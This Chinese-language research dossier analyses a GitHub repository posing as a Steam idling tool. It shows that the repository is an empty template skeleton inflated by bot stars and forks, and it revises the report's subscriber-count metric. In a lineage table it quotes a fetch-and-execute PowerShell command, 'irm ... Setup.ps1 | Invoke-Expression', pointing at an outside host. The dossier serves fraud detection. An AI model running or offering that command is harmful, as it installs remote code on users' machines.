

# Poltergeistlunagrid/Steam-Idler

> **⚠️ 本档案的用途**：这不是一份推荐档案，而是一份**可核验的反例样本**。
> 本日报在 2026-11-08 的持续跟踪核查中发现：它与 `sentinelsoldierprize/Minecraft-AFK-Bot` 的 `subscribers_count`（25 / 35）**高于当日全部四个真项目**（4 / 2 / 1 / 0），而其代码是一个 4 commit、5 文件、6 KB 的模板骨架。**这一事件导致本日报修正了 11-07 提出的「subs 是低噪声深度信号」判据。** 本档案的全部价值在于让这一修正可复查。

## 一句话定位
一个自称的「Steam 挂机 / 集卡 / 刷时长」工具，**而其仓库内不含任何可核验的 Steam 相关实现** —— 它是一个与 2026-11-06 农场簇共用同一份模板文件的骨架，且其 README 末尾写着 `⭐ Star the repo if it helped you.`

## 它解决的问题

**（声明层面）** Steam 的部分卡牌需要游玩时长才能掉落，因此玩家希望「挂机刷时长」。声明称它支持：无 Steam 客户端、headless 运行、Windows/macOS/Linux、多账号并行。

⭐⭐⭐⭐⭐ **但仓库内不存在任何可核验的实现**：`git/trees/HEAD?recursive=1` 只有 5 个文件 —— `.gitignore`(4,664 B) / `LICENSE`(1,076 B) / `README.md`(3,430 B) / `config.py`(78 B) / `helpers.py`(97 B)。⭐⭐⭐⭐⭐ **`helpers.py` 的完整内容是**：

```python
"""Small helper utilities."""


def format_name(name):
    return name.replace("_", "-").lower()
```

⭐⭐⭐⭐⭐ **而 `config.py` 的完整内容是**：

```python
"""Configuration for core."""

VERSION = "1.8.3"
DEBUG = True
MAX_ITEMS = 100
```

⭐⭐⭐⭐⭐ **没有任何 Steam 协议处理、没有任何 SteamKit2 绑定、没有任何 Web Dashboard、没有任何 C# 或 TypeScript 文件。** README 的 `## 💻 Tech Stack & Architecture` 却写着：

> - **Core:** Node.js / C# / TypeScript (depending on the build)
> - **Steam API:** SteamKit2 / steam-user
> - **UI:** Web Dashboard / CLI
> - **Target OS:** Windows / macOS / Linux

⭐⭐⭐⭐⭐ **`language` 字段是 Python，与自述的「Node.js / C# / TypeScript」直接矛盾。** ⭐⭐⭐⭐⭐ **这是本日报记录到的第二例「宣称技术栈与仓库实际内容不符」** —— 第一例是 2026-11-06 的 `HerdBuilderEstimate/roblox-studio-mcp`（自述 Node.js/TypeScript，`language` 字段为 Python）。

## 为什么值得关注（2026-11-08）

**⭐⭐⭐⭐⭐ 它值得收录的唯一理由，是它让本日报的一条既有判据失效了。**

2026-11-07 的日报在 `projects/poki.md` 中写下：「⭐⭐ **subs 是一个噪声极低但样本极小的指标**」—— 依据是 poki 有 83 个 fork 却只有 1 个 subscriber、hermes-voice 有 20 个 fork 只有 3 个 subscriber。

⭐⭐⭐⭐⭐ **2026-11-08 实测**：

| 仓库 | ⭐ | forks | **subs** | subs/forks | 代码状态 |
|---|---:|---:|---:|---:|---|
| `sentinelsoldierprize/Minecraft-AFK-Bot` | 425 | 260 | **35** | 0.135 | 模板骨架，import 会抛错 |
| **`Poltergeistlunagrid/Steam-Idler`** | **425** | **313** | **25** | **0.080** | 模板骨架，无任何 Steam 实现 |
| `dabingfy-dot/solo-to-team-skills` | 130 | 14 | 4 | 0.286 | 4 支技能 + 模板 + 案例 |
| `lxe/phoneuse` | 118 | 10 | 2 | 0.200 | 完整实现，34 文件，85 commits |
| `Th0rgal/satmux` | 316 | 17 | 1 | 0.059 | 7 文件完整实现 |
| `MajestyPoemFold/ghostclick-mouse-double-click-fix` | 136 | 21 | 0 | 0.000 | Rust + Tauri，77 文件 |

⭐⭐⭐⭐⭐ **两个空壳占据了订阅数榜前两名。** 而原因就写在它们的 README 里 —— Quick Start 之后一次，文末再一次：

```
**⭐ Star the repo if it helped you.**
```

⭐⭐⭐⭐⭐ **「关注」被明写成一条投放指令，而 GitHub 的 `subscribers_count` 与 `stargazers_count` 会被同一次点击同时抬高。** ⭐⭐⭐⭐⭐ **换言之：11-07 推荐的判据，在 11-08 被对方使用了。**

⭐⭐⭐⭐⭐ **同日的正面参照让这条判断更硬**：`ghostclick`（136⭐）把用户导流到 Discord（`discord.gg/INVITE`）而**没有任何索取 star 的语句**，其 subs 因此是 **0**。⭐⭐⭐⭐⭐ **即「subs 低」有两种完全相反的成因 ——「没人真的关注」与「关注被导流到别处」—— 只有读 README 才能区分。**

⭐⭐⭐⭐⭐ **因此本日报把 11-07 的判据修正为**：

> ~~「subs 是一个噪声极低但样本极小的指标」~~
> **「subs 只在同作者族内可比；跨作者比较前必须先确认该仓库的 README 是否含索取 star/watch 的语句。」**

⭐⭐⭐⭐⭐ **而这正是本日报本日最重要的方法论产出**：**判据必须成对使用 —— 一个「深度信号」和一个「反向信号」同时检查。** 本日可用的四元组是：(a) README 是否索取 star/watch；(b) fork 到达的时间分布；(c) 文件 md5 是否与已知农场集合重复；(d) 代码能否 import / 运行。**这四项在本日对 162 个候选逐个跑通了。**

⭐⭐⭐⭐⭐ **此外它还提供了跨日模板血缘的第二段证据**（见下节）。

## 热度来源判断

425⭐ ⑂313（**fork/star 73.6%**）、**subs 25**、oi 0、4 commits、6 KB、Python、MIT、topics 空数组、User 账号（`created_at` = 2026-11-07T20:26:32Z，**当天新建**）。

⭐⭐⭐⭐⭐ **热度来源判断：机器投放，非真实需求。**

判据逐条如下：

1. ⭐⭐⭐⭐⭐ **fork 到达是机器节奏**：抽样 100 个 fork 的时间戳，**间隔中位数 5.0 秒、99 个相邻间隔中 98 个 ≤10 秒、全部落在 10.0 分钟内**。⭐⭐⭐⭐ 对照 2026-11-06 同批：`roblox-studio-mcp` 5.0 秒 / 96.9%、`roblox-performance-tool` 6.0 秒 / 94.5% —— **同一套投放基础设施的第三次出现**；而 `sheeridVerify` 是 74 秒 / 8.9%，`ghostclick` 是 1555 秒 / 0%。

2. ⭐⭐⭐⭐⭐ **commit 是逐文件补录而不是开发**：4 个 commit 在 **19 秒**内完成（`20:26:33Z` Initial commit → `20:26:51Z` Add helpers.py），标题为 `Add config.py` / `Add helpers.py` / `Add README.md`。

3. ⭐⭐⭐⭐⭐ **文件 md5 与已知农场集合重复**（详见下节）—— **这是最强的单条证据**。

4. ⭐⭐⭐⭐⭐ **README 索取 star 两处** —— 直接解释了 subs 25 的来源。

5. ⭐⭐⭐⭐ **fork/star 73.6% 属于本日报记录的最高区间**（11-08 另一样本为 61.2%，11-06 最高为 91%）。

## 关键技术亮点

⭐⭐⭐⭐⭐ **本项目没有技术亮点可写 —— 这正是它被收录的原因。** 本节记录的是**它与已知农场集合的逐字节关系**：

| 文件 | 本仓库 | md5 | 与 2026-11-06 农场簇的关系 |
|---|---|---|---|
| `.gitignore` | 4,664 B | `e18f025c87b71b9fe481f53ac6e8235d` | ⭐⭐⭐⭐⭐ **与 `roblox-studio-mcp` / `roblox-performance-tool` / `crypto-portfolio-tracker` / `discord-quest-completer` 四家完全相同（跨日复用）** |
| `helpers.py` | 97 B | `8470fd5b911eacd63327be59d2562f16` | ⭐⭐⭐⭐⭐ **与 `crypto-portfolio-tracker` / `discord-quest-completer` 逐字节相同（跨日复用）** |
| `config.py` | 78 B | `2661df192ac24228cc0a4ec9af82cb74` | ⭐⭐⭐⭐ 与 `roblox-studio-mcp` 的 `config.py` 结构一致，**仅 docstring 的一个词（`core` vs `starter`）与 `VERSION`/`MAX_ITEMS` 两个常量不同** |
| `LICENSE` | 1,076 B | — | MIT |
| `README.md` | 3,430 B | — | 内容为该工具的宣传文案 |

⭐⭐⭐⭐⭐ **对照 `roblox-studio-mcp` 的 `config.py`（`"""Configuration for starter."""` + `VERSION = "0.1.5"` + `DEBUG = True` + `MAX_ITEMS = 50`）—— 本仓库的 `"""Configuration for core."""` + `VERSION = "1.8.3"` + `DEBUG = True` + `MAX_ITEMS = 100`：**docstring 与两个常量被改写，其余结构完全一致。** ⭐⭐⭐⭐⭐ **这证明该模板是「可参数化后批量生成」的，不是逐个手写。**

⭐⭐⭐⭐⭐ **它的 README 里有两处值得记录的免责声明**（与虚假实现并置）：

> > ⚠️ **Warning:** Idling games may affect your refund eligibility (if you have purchased a game recently).
> **Is this safe to use?** The tool simulates game activity only. However, use it at your own risk. Avoid idling games you might want to refund.
> **Does it require the Steam client?** No. It runs headlessly and connects directly to Steam servers.

⭐⭐⭐⭐⭐ **「用合规话术包装空壳」的典型形态**：免责声明写得越具体，读者的信任阈值越高。⭐⭐⭐⭐ **这些声明与仓库内容完全无关 —— 仓库里没有任何与退款、Steam 客户端或模拟游戏活动有关的代码。**

## 架构师速览

| 决策问题 | 研究判断 | 证据边界 |
|---|---|---|
| 系统边界 | **不存在可讨论的系统边界** —— 仓库内没有系统。README 声明的边界是「本地 headless 运行、不需要 Steam 客户端、Windows/macOS/Linux」，**而仓库内容与这些声明无对应关系** | 全部依据为树查询与文件原文；本日报**未执行该仓库的任何代码** |
| 主路径 | README 声明的主路径为「Steam 账号 → 模拟游戏活动 → 集卡/刷时长」；**仓库内不存在这条路径的任何实现**（无 Steam API、无协议处理、无 Dashboard、无 C#/TS 文件，`language` 为 Python） | 同上；`language` 字段与 README 自述的 Node.js / C# / TypeScript 直接矛盾 |
| 关键权衡 | **（作为观察对象）** 它的取舍是「用 5 个文件 + 3,430 字节 README 换取 425⭐ + 313 fork + 25 subscriber」—— **代价是仓库不承载任何功能**。**（作为方法论对象）** 它暴露的关键权衡是「投放方选择把成本花在 star/subs 上，而不是花在代码上」 | 前者由树查询与元数据直接支持；后者是推断，依据是 4 commit / 5 文件与 425⭐ 的比例 |
| 最小 PoC | **不适用** —— 唯一的合理 PoC 是「核对 `helpers.py` 与 `config.py` 的 md5 是否落在已知农场集合中」，这是一个纯文本检查，本日报已执行并命中 | 已执行；`helpers.py` md5 `8470fd5b911eacd63327be59d2562f16` 与 11-06 农场簇重复 |
| 证据边界 | 全部结论基于 2026-11-08 CST 的 GitHub API 快照：树查询、文件原文（`helpers.py`/`config.py` 全文已在本档案引用）、`language`/`license`/计数字段、fork 时间戳、README 全文。**本日报未执行其代码，未访问其 release 或 issue。** ⭐⭐⭐⭐⭐ **本档案不主张该仓库的意图，只主张其可核验内容与 README 宣称不一致。** | 无独立复现；oi 0，无第三方反馈 |

## 架构启发

⭐⭐⭐⭐⭐ **启发一（本档案最重要的一条）：判据会被针对，因此判据必须成对部署。**

11-07 的日报基于「subs 低 / fork 高 ⇒ 关注度薄」的观察判定 poki 与 hermes-voice 为真项目。⭐⭐⭐⭐⭐ **11-08 出现了一个只需在 README 里加一行 `⭐ Star the repo if it helped you.` 就能让这个判据完全反转的样本。** ⭐⭐⭐⭐⭐ **这不是「判据错了」—— 判据本身没变，是环境变了。** ⭐⭐⭐⭐⭐ **因此任何基于单一指标的自动化筛选都应假设该指标会被优化，而配套一个「反向信号」：一个正面信号（subs 高）+ 一个反向信号（README 是否索取 star）必须成对检查。**

⭐⭐⭐⭐⭐ **启发二：md5 是识别「模板农场」最便宜、最可靠的指纹。**

⭐⭐⭐⭐⭐ `.gitignore` 的 md5 `e18f025c87b71b9fe481f53ac6e8235d` 在 **2026-11-06 的四家与 2026-11-07 的两家之间完全相同** —— **一个 4.6 KB 的通用 .gitignore 跨日复用，成为把两天、六个仓库串成同一来源的最短证据链。** ⭐⭐⭐⭐⭐ **成本近乎为零（一次 API 调用 + 一次 md5），而结论强度远超 fork/star 比率这类需要分布计算的指标。**

⭐⭐⭐⭐ **启发三：仓库体积与 commit 时间戳是「零成本预筛」。**

⭐⭐⭐⭐⭐ 6 KB / 4 commits / 19 秒 —— **这三个数字在任何一次 API 调用后即可得到，且已经把本日 162 个候选中的绝大多数排除。** ⭐⭐⭐⭐⭐ **本日报本日之所以能把取证预算集中在 6 个项目上，前置筛选正是靠这三个数字。**

⭐⭐⭐⭐ **启发四：断言与实现的落差要逐条机械核对，而不是靠印象。**

⭐⭐⭐⭐⭐ README 的 Tech Stack 列了 Node.js / C# / TypeScript / SteamKit2 / Web Dashboard —— **只要把树查询结果和 `language` 字段并排放，落差是立刻可见的**。⭐⭐⭐⭐⭐ **这类核对应当写进自动化流程，而不是留给读者「读一读 README 感觉一下」。**

## 架构图（MMD）

> 证据边界：此图只采用本档案已有可核验描述；“待核验”节点不应视为项目实现事实。




## 定位判断

**观察型（反例样本）—— 收录目的是让「热度 ≠ 价值」这句话在本仓库里保持可核验、可复查。**

⭐⭐⭐⭐⭐ **它不是「被推荐的项目」，而是「本日报方法论的一次失败与修正」的物证。** ⭐⭐⭐⭐⭐ **一个研究仓库如果只收录好项目，那么当某天所有候选都是农场时，读者无法判断这个仓库是否有发现能力。** ⭐⭐⭐⭐⭐ **收录反例是让「本日结论」可被证伪的唯一办法。**

⭐⭐⭐⭐ **它的长期价值在于它是「模板跨日复用」这条谱系上的一个节点**：

| 日期 | 形态 | 证据 |
|---|---|---|
| 2026-11-06 前 | 可执行 PowerShell 载荷 | `irm https://git-software.cc/ps/Setup.ps1 \| Invoke-Expression` |
| 2026-11-06 | starter 模板（4 个仓库） | `.gitignore` md5 `e18f025c...`；`helpers.py` md5 `8470fd5b...` |
| 2026-11-07 | **索取 star 的同模板变体**（本仓库 + `Minecraft-AFK-Bot`） | 同上两个 md5 + README 的 `⭐ Star the repo if it helped you.` |
| 2026-11-07 | 空壳占位符 + 关键词投毒（85 + 57 个仓库） | `initial.html` md5 `258a0f5e...`；README 末尾 24 个 `Related Search Terms` |

⭐⭐⭐⭐⭐ **四天四种形态，但背后的基础设施是同一套 —— 而本日报已经能给出跨三天的文件级血缘。**

## 风险 / 局限 / 泡沫点

- ⚠️⚠️⚠️ **风险（作为研究对象）：本日报曾把 `subs` 当作可靠的跨项目判据。** ⭐⭐⭐⭐⭐ 若不修正，任何基于 subs 的自动化筛选会持续输出「README 里写了请给我 star 的仓库」。
- ⚠️⚠️⚠️ **风险（对该仓库本身的定性）：本档案只能证明「宣称与实现不符」，不能证明意图。** ⭐⭐⭐⭐⭐ **一个 5 文件的仓库也可能确实是「先发公告、后补实现」的早期项目** —— 但 4 个 commit 在 19 秒内完成、README 宣称的依赖一个都不存在、且与已知农场集合 md5 重复，**这三条同时成立使「早期项目」的解释力很弱**。⭐⭐⭐⭐⭐ **本档案仍不主张意图。**
- ⚠️⚠️⚠️ **风险（对读者的实际影响）：仓库内没有可执行内容，但其 README 与描述会把读者导向别处**（README 提到的下载/仪表盘在仓库中不存在）。
- ⚠️⚠️ **这是一个全新的账号**：`created_at` = 2026-11-07T20:26:32Z，与仓库创建时间差 19 秒。**账号与仓库几乎同时诞生。**
- ⚠️⚠️ **oi 0、subs 25**：没有任何 issue 讨论；**25 个 subscriber 是在索取 star 的语境下产生的**，不构成独立的质量信号。
- ⚠️ **README 自述的技术栈与仓库的 `language` 字段直接冲突**（Node.js / C# / TypeScript vs Python），且 `version` 常量 `1.8.3` 与「首个 release」这一事实无关（仓库 releases 为 0）—— **`VERSION = "1.8.3"` 本身是模板参数的又一例证**。
- ⚠️ **本日报未执行其代码，未访问其外部链接**：⭐⭐⭐ **「README 里提到的功能在别处提供」这一可能性，本窗口未做外部核实。**

## 与同类项目的关系

- **vs `sentinelsoldierprize/Minecraft-AFK-Bot`（本日同批建档）**：⭐⭐⭐⭐⭐ **同构样本** —— 同样 425⭐、同样 5–6 文件、同样模板 md5、同样 README 两处索取 star；⭐⭐⭐⭐ 差异在于 AFK-Bot 的 `main.py` **import 的是不存在的模块名**（`from utils import build` 而文件名为 `utils.py`），**即它的代码连 import 都无法解析**，而本仓库的 `helpers.py` 语法合法但无功能。**两者合起来覆盖了「空壳」的两类子型。**
- **vs 2026-11-06 的 `HerdBuilderEstimate/roblox-studio-mcp`（427⭐ ⑂260）**：⭐⭐⭐⭐⭐ **同源**（`.gitignore` md5 相同、`helpers.py` md5 相同、fork 间隔中位数同为 5.0 秒、README 同样自述与实现不符）；⭐⭐⭐⭐ **roblox-studio-mcp 的 fork/star 是 61%，本仓库是 73.6% —— 同一模板在不同项目上的不同包装。**
- **vs 2026-11-07 的 `LumiVikinggard89137/ai--manus` 等 57 个（关键词投毒簇）**：⭐⭐⭐⭐ **形态不同但目标相同** —— manus 簇不索取 star（它的机制是 SEO 关键词堆 + Dropbox 直链），本仓库索取引导 star。**两者代表两种「收割注意力的不同通道」。**
- **vs `MajestyPoemFold/ghostclick-mouse-double-click-fix`（本日同批建档，136⭐）**：⭐⭐⭐⭐⭐ **最有价值的对照**：ghostclick **不索取 star**（导流 Discord）、有 77 个文件、CI、issue 模板、真实实现 —— 而 subs 是 **0**。⭐⭐⭐⭐ **两者并排即证明「subs 低」不是「质量高」的充分条件。**
- **vs `lxe/phoneuse`（本日同批建档，118⭐）**：⭐⭐⭐⭐ **subs 2、85 commits、34 文件、MIT**；⭐⭐⭐⭐ **与本仓库的 subs 25、4 commits、5 文件形成同一份榜单上最直接的对比。**

## 是否值得持续跟踪

**值得跟踪，但跟踪对象是「它的消失」而不是「它的成长」。** ⭐⭐⭐⭐

⭐⭐⭐⭐⭐ **理由**：它是本日报修正判据的原始证据。⭐⭐⭐⭐⭐ **如果它在未来几天内从榜单上消失，说明整个事件是一次性的；如果它继续增长并开始出现真实 issue，则说明它是一个「有功能但仓库空」的早期项目 —— 那将是对本档案结论的一次真实检验。** ⭐⭐⭐⭐⭐ **两种结局都有信息量，这正是它值得留在跟踪列表里的理由。**

⭐⭐⭐⭐ **对使用者的实际建议**：**不要从这个仓库安装或运行任何东西。** ⭐⭐⭐⭐ **仓库内不存在可运行内容。**

## 后续观察点

1. **⭐⭐⭐⭐⭐ 它的 subs 是否继续增长，且增长与 README 的 star 索取相关**：若 subs 继续上升而 oi 仍为 0，则「subs 膨胀」的机制被进一步确认。
2. **⭐⭐⭐⭐⭐ 它是否开始补实现**：若出现 `requirements.txt`、Steam 相关模块或真实 commit 历史，则需要修正本档案的定性。
3. **⭐⭐⭐ 仓库内是否出现 `initial.html` 模板（本日 85 个空壳簇的签名文件）**：若出现，说明三个簇共享同一套生成器。
4. **⭐⭐⭐ 它的 owner 账号是否继续产出同类仓库**：这是判断「单个农场」还是「批量生成基础设施」的关键。
5. **⭐⭐ `README.md` 的 md5 是否与其它仓库重复**：若重复，则 3,430 字节的文案也是模板化的。
6. **⭐⭐⭐⭐⭐ 本日报判据修正后的整体效果**：在未来的日报中，「README 是否索取 star」应当作为常规字段被记录 —— **若被持续记录，本档案即完成了它的使命。**

---
*首次记录：2026-11-08*
